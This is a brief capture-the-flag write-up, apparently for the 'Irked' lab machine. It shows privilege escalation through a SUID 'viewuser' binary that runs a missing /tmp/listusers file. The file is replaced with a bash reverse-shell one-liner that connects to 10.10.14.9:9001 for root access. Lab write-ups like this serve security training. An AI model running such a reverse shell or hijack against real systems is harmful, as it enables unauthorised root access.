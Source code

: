 # 20 - Root

# Linpeas.sh
![](vx_images/1977230496385.png)


# /tmp/listusers

```bash
djmardov@irked:/$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           Jul  1 13:55 (:0)
djmardov pts/1        Jul  2 06:48 (10.10.14.9)
sh: 1: /tmp/listusers: not found
```

it looks like sh is trying to execute /tmp/listusers but it doesn't exist

# Reverse shell

```
djmardov@irked:/$ cat /tmp/listusers 
bash -c "bash -i >& /dev/tcp/10.10.14.9/9001 0>&1"
```

# Root

![](vx_images/3026234042863.png)